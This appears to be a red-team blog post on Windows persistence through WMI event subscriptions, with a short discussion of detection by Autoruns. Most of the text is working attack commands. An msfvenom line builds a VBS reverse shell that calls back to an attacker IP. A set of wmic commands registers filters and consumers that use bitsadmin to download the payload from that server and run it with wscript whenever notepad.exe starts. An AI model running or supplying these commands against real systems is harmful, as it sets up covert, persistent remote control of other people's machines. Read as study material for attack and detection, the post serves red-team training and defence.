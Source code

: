 **A quick TLDR:** WMI subscriptions trigger an _action_ based off a windows _event_. This _event_ and _action_ can be **set** and **controlled** by the attacker. Ex pseudocode: _Run command “calc.exe” when event ID 42 occurs._ The event is created by the user in a [WMI Query Language](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wql-sql-for-wmi) \(**WQL**\).

[Empire](http://www.powershellempire.com/?page_id=223) and [Metasploit](https://www.rapid7.com/db/modules/exploit/windows/local/wmi_persistence) each have a module for this technique, which have a default payload of a powershell encoded reverse shell as the action. The payload exists in the WMI database, which can be queried from **wmic** or **powershell**. Cool right? Well there’s a catch: Autoruns pulls WMI database entries by default.

![alt text](https://liberty-shell.com/sec/assets/img/wmi8.png)

Although the entry is listed, it doesn’t necessarily show any glaringly obvious red flags. So would it be better to have the WMI subscription fetch the payload remotely then execute it, migrate sessions/run in memory deleting the remote payload or run the payload directly as one large B64 powershell command stored on system?

It would depend \(in my opinion\). Both would show up as entries in autoruns, but not necessarily all of the fields per entry. How is the network being monitored? How about powershell usage?

![alt text](https://liberty-shell.com/sec/assets/img/lol-esc5.gif)

Since an all-in-one PowerShell payload example has been documented, this scenario will fetch a remote payload and execute.

**Outline of steps that will be taken:**

* Get/Download a reverse shell called **job.vbs** from our attacker controlled server _when_ the system starts up.
* Run job.vbs _when_ a user opens notepad.exe \(this could be outlook.exe or something similar\). A .vbs reverse shell can be generated with msfvenom like so:

```text
msfvenom -p windows/shell/reverse_tcp LHOST=172.20.0.2 LPORT=4141 EXITFUNC=thread -f vbs --arch x86 --platform win > job.vbs
```

I was unable to run multiple commands in one wmi event subscription - using &, && or ; so I decided to go with two event subscriptions. One to get the shell script and the other to execute it.

With Metasploits multi/handler one could run a clean up script if their session dies, or migrate processes and delete the remnant script if so desired.

Here are a few examples of wmic queries to create the events.

```text
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="WinBinsX", QueryLanguage="WQL", Query="SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName= 'NOTEPAD.EXE'"

wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"WinBinsX\"", Consumer="CommandLineEventConsumer.Name=\"WinBinsX\""

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="WinBins", CommandLineTemplate="bitsadmin /transfer 'job' /download http://172.20.0.2/shells/job.vbs C:\Users\snake\AppData\Roaming\job.vbs

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="WinBinsX", CommandLineTemplate=" wscript.exe C:\\Users\\snake\\AppData\\Roaming\\job.vbs"
```
